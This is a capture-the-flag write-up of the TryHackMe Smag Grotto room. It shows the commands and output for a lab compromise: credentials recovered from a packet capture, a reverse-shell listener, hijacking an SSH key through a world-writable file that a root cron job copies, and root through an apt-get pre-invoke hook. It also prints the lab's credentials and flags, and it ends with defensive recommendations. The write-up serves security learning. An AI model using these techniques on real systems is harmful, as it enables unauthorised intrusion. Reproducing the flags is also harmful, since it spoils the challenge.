

# Smag Grotto Write-up

## Smag Grotto Write-up

> **Scope:** This write-up documents activity performed only against the authorized [TryHackMe Smag Grotto room](https://tryhackme.com/room/smaggrotto). Target IP addresses, credentials, keys, and flags are specific to the lab instance.

### Overview

Smag Grotto chained several small weaknesses into root access:

1. A packet capture exposed development credentials.
2. The authenticated development panel executed supplied commands.
3. A root cron job copied a world-writable SSH key backup into Jake's `authorized_keys` file.
4. Jake could run `apt-get` as root without a password.

| Item                 | Value                                                |
| -------------------- | ---------------------------------------------------- |
| Platform             | TryHackMe                                            |
| Room                 | [Smag Grotto](https://tryhackme.com/room/smaggrotto) |
| Target               | `10.114.135.127`                                     |
| Initial access       | Authenticated command execution as `www-data`        |
| User access          | `jake` through a replaced SSH authorized key         |
| Privilege escalation | `sudo apt-get` pre-invoke hook                       |

### Tools used

* RustScan / Nmap
* Gobuster
* Wireshark
* Netcat
* OpenSSH / `ssh-keygen`
* Bash and common Linux enumeration commands

### 1. Reconnaissance

I began with RustScan, which handed the discovered ports to Nmap:

```bash
rustscan -a 10.114.135.127
```

```
Open 10.114.135.127:22
Open 10.114.135.127:80

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

The target exposed SSH and HTTP. I enumerated the web content next:

```bash
gobuster dir -u http://10.114.135.127/ \
  --wordlist /usr/share/wordlists/dirb/common.txt
```

```
index.php            (Status: 200)
mail                 (Status: 301) [--> http://10.114.135.127/mail/]
.htaccess            (Status: 403)
.htpasswd            (Status: 403)
server-status        (Status: 403)
```

The `mail` directory was worth investigating. The forbidden Apache files also confirmed that access controls were present.

### 2. Packet capture reveals development credentials

A packet capture was retrieved from the web server:

```bash
wget 'http://10.114.135.127/aW1wb3J0YW50/dHJhY2Uy.pcap'
```

Reviewing the capture in Wireshark showed an HTTP form submission to the development application:

```
Full request URI: http://development.smag.thm/login.php

Form item: "username" = "helpdesk"
Form item: "password" = "cH4nG3M3_n0w"
```

This shows why credentials must never traverse unencrypted HTTP. Anyone who can obtain the capture can recover them directly.

> **Evidence note:** The recorded session contains the PCAP download and later use of the development hostname. It does not include the exact discovery step for `/aW1wb3J0YW50/` or the exact local hosts-file entry.

### 3. Authenticated command execution as `www-data`

The development site accepted the recovered credentials. A listener received a reverse connection from the target:

```bash
nc -lvnp 4444
```

```
connect to [192.168.131.151] from (UNKNOWN) [10.114.135.127] 40400
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ pwd
/var/www/development.smag.thm
```

I upgraded the shell for easier interaction:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Reading the local application source exposed the issue in `admin.php`:

```php
session_start();

if (!$_SESSION["login"]) {
    header("Location: login.php");
    return;
}

$command = $_POST["command"];
$submit = $_POST["submit"];

if (isset($submit)) {
    exec($command);
}
```

After authentication, the application passes the `command` POST parameter directly to PHP's `exec()` function. No allowlist or input validation is visible. An authenticated user can therefore execute operating-system commands as the web-service account.

> **Evidence note:** The logs establish the authenticated `www-data` shell and show the vulnerable source. They do not include the exact HTTP request or reverse-shell payload used to trigger the callback.

### 4. Finding the SSH-key cron job

The `www-data` account could not read Jake's flag directly:

```bash
cat /home/jake/user.txt
```

```
cat: /home/jake/user.txt: Permission denied
```

I checked scheduled tasks and found a root cron entry:

```bash
cat /etc/crontab
```

```
*  *    * * *   root    /bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
```

Every minute, root copied a public-key backup into Jake's SSH `authorized_keys`. The source file was dangerously writable:

```bash
ls -la /opt/.backups/
```

```
-rw-rw-rw- 1 root root 563 Jun  5 2020 jake_id_rsa.pub.backup
```

Any local account that can write this source file can cause root to authorize an SSH key of its choice for Jake.

### 5. Replacing the backup key and becoming Jake

I generated a new RSA key pair locally:

```bash
ssh-keygen -t rsa -b 2048 -f ./jake_key
```

From the `www-data` shell, I replaced the world-writable backup with the newly generated public key:

```bash
echo '<contents of jake_key.pub>' > /opt/.backups/jake_id_rsa.pub.backup
```

After the minute-based cron job ran, it overwrote `/home/jake/.ssh/authorized_keys` with that key. I could then authenticate as Jake:

```bash
ssh -i ./jake_key jake@smag.thm
```

```
jake@smag:~$ id
uid=1000(jake) gid=1000(jake) groups=1000(jake)
```

The user flag was available in Jake's home directory:

```bash
cat user.txt
```

```
iusGorV7EbmxM5AuIe2w499msaSuqU3j
```

### 6. Root via `apt-get`

Jake's sudo permissions were the final escalation path:

```bash
sudo -l
```

```
User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```

`apt-get` accepts configuration options that execute commands during package-management operations. I used a pre-invoke hook to start a shell under the elevated process:

```bash
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

The resulting shell was root:

```
# id
uid=0(root) gid=0(root) groups=0(root)

# pwd
/tmp
```

Finally, I read the root flag:

```bash
cat /root/root.txt
```

```
uJr6zRgetaniyHVRqqL58uRasybBKz2T
```

### Attack chain



### Vulnerability analysis

#### Plaintext credentials in a packet capture

The PCAP contained credentials submitted over HTTP. Login flows must use HTTPS, and sensitive traffic captures must not be exposed through web paths.

#### Authenticated command execution

The administrative page treats user-controlled input as an operating-system command:

```php
exec($command);
```

Authentication does not make unrestricted command execution safe. Replace generic command fields with narrowly scoped, allowlisted actions that do not invoke a shell.

#### Root cron job trusts a world-writable source

The cron task ran as root but consumed a file writable by every local user. That file controlled an SSH authorization file. Privileged automation must only read files that are root-owned and not writable by untrusted accounts.

#### Unrestricted `apt-get` through sudo

Allowing `apt-get` with `NOPASSWD` grants broad administrative control. Its hooks and configuration options can execute arbitrary commands. Sudo rules should allow only narrowly defined administrative actions.

### Defensive recommendations

1. **Enforce HTTPS** for all login forms and remove sensitive traffic captures from web-accessible paths.
2. **Remove shell execution from web applications.** Use fixed server-side actions with strict authorization.
3. **Harden cron inputs.** Make key backups root-owned and non-writable by group or others. Validate ownership before privileged jobs consume files.
4. **Do not automate SSH key replacement from untrusted locations.** Use root-controlled configuration management instead.
5. **Restrict sudo.** Remove unrestricted `NOPASSWD: /usr/bin/apt-get` access.
6. **Monitor sensitive changes.** Alert on changes to `authorized_keys`, cron-controlled files, command endpoints, and unexpected outbound web-server connections.

### Final notes

This room shows how trust relationships can drive privilege escalation. A low-privileged web shell became root because root consumed a world-writable file, the web panel ran arbitrary commands, and sudo permitted a powerful package-management utility without a password.
